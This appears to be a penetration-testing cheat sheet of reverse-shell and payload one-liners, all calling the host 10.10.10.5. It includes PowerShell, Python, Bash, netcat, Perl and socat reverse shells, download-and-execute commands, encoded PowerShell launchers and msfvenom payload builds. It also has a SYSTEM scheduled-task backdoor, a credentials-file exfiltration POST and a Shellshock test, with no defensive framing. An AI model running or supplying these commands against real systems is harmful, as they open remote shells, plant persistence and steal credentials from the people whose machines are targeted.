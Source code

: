 

# Powershell: Reverse shell (TCP)
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.5',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"

## Download and execute remote script
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.5/backdoor.ps1')"

## Encoded PowerShell launcher
powershell -EncodedCommand UwB0AGEAcgB0AC0AcwBoAGUAbABsACAAYwBvAG0AbQBhAG4AZAAgAGEAbABsAG8AdwBlAGQAIABiAHkAIAB0AGgAZQAgAHMAeQBzAHQAZQBtAA==


# Python: Reverse Shell

## Basic Linux reverse shell
python -c 'import socket,subprocess,os;s=socket.socket();s.connect(("10.10.10.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'


# Bash One-Liners
## Netcat reverse shell
nc -e /bin/bash 10.10.10.5 4444

## Bash TCP shell (no nc)
bash -i >& /dev/tcp/10.10.10.5/4444 0>&1

# MSFvenom Payloads

## Windows reverse TCP shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f exe > shell.exe

## Linux reverse shell (ELF)
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f elf > shell.elf











nc -e /bin/sh 10.10.10.5 4444

powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.5/a.ps1')"

bash -i >& /dev/tcp/10.10.10.5/443 0>&1

python -c 'import pty; pty.spawn("/bin/bash")'

curl -s http://10.10.10.5:8080 | bash

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=4444 -f exe > met.exe

powershell -e aQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAY3QAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAiAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQAwAC4ANQAvAGIAYQBjAGsAZABvAG8AcgAuAHAAcwAxACIAKQA=

perl -e 'use Socket;$i="10.10.10.5";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

wget http://10.10.10.5/evil.sh && chmod +x evil.sh && ./evil.sh

openssl s_client -connect 10.10.10.5:443

socat TCP4-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash

echo 'bash -i >& /dev/tcp/10.10.10.5/5555 0>&1' > /tmp/.x && chmod +x /tmp/.x && /tmp/.x

curl http://10.10.10.5/reverse | sed 's/^/>/g' >> ~/.bash_history

schtasks /create /tn "backdoor" /tr "powershell -nop -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.5/r.ps1')" /sc minute /mo 1 /ru SYSTEM

echo aGVsbG8gd29ybGQ= | base64 -d

ftp 10.10.10.5

env x='(){:;};echo hacked' bash -c "echo this is a test"

curl -X POST -d @creds.txt http://10.10.10.5/steal.php

powershell -Command "$env:comspec"

whoami >> /dev/tcp/10.10.10.5/1337

